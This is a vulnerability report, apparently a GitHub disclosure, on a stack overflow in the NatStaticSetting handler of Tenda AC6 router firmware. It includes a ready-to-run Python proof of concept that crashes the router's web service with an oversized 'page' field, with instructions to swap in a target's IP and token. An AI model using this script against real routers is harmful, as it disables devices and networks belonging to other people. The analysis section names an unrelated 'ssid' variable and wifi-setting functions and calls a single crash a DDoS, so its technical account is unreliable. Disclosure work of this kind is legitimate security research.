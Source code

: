 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6V1.0 and AC6V2.0 Series Routers

**Affected firmware version:**  AC6V1.0升级软件V15.03.05.16,   AC6V1.0升级软件V15.03.05.19,   AC6V2.0升级软件_V15.03.06.23_multi

**Firmware download address:**[AC6V2.0升级软件](https://www.tenda.com.cn/material/show/102855)

# Overview

A **stack overflow vulnerability** in the `NatStaticSetting` function in the AC6V2.0 firmware upgrade _V15.03.06.23_multi allows an attacker to craft a very long `page` variable, causing a stack overflow, which then leads to a DDoS attack.

# Vulnerability details

Analyzing the `fromNatStaticSetting` function in this file reveals that when the value of the ssid variable is a very long string, such as 400 characters of "a", a stack overflow attack occurs because the gotopage variable, due to insufficient buffer length, overflows when the value is assigned via the sprintf function.

![image-20250312231545267](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122315976.png)

Cross-referencing the form_fast_setting_wifi_set function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250312231728894](C:/Users/LENOVO/AppData/Roaming/Typora/typora-user-images/image-20250312231728894.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/NatStaticSetting"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "page": "a"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.status_code)
print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)